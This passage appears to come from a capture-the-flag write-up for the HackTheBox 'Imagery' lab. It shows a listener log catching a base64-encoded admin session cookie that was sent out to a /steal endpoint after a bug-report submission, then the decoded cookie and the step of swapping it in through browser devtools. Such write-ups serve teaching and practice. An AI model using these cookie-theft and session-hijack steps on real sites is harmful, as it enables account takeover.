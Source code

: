 ![Imagery Website Report Bug](/assets/img/imagery-htb-season9/imagery-htb-season9_website-report-bug-4.png)

After hitting the submit button, we wait for a second or a minute and check our server.

```bash
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.98.213 - - [28/Sep/2025 05:16:17] code 404, message File not found
10.129.98.213 - - [28/Sep/2025 05:16:17] "GET /steal?c=c2Vzc2lvbj0uZUp3OWpiRU9nekFNUlBfRmM0VUVaY3BFUjc0aU1vbExMU1VHeGM2QUVQLU9vcW9kNzkzVDNRbVJkVTk0ekJFY1lMOE00UmxIZUFEcksyWVdjRllxdGVnNTcxUjBFelNXMVJ1cFZhVUM3bzFKdjhhUGVReGhxMkxfcmtIQlRPMmlyVTZjY2FWeWRCOWI0TG9CS3JNdjJ3LmFOajgydy52NFhsSGNnbDA3WG1ZdC10UE5leGRnaDdZTG8= HTTP/1.1" 404 -
```

Got the cookie for admin. <br>
&rarr; Decode it with base64 and we got the cookie.

```bash
session=.eJw9jbEOgzAMRP_Fc4UEZcpER74iMolLLSUGxc6AEP-Ooqod793T3QmRdU94zBEcYL8M4RlHeADrK2YWcFYqteg571R0EzSW1RupVaUC7o1Jv8aPeQxhq2L_rkHBTO2irU6ccaVydB9b4LoBKrMv2w.aNj82w.v4XlHcgl07XmYt-tPNexdgh7YLo
```

Let's go to devtools and replace our cookie with the one we got.
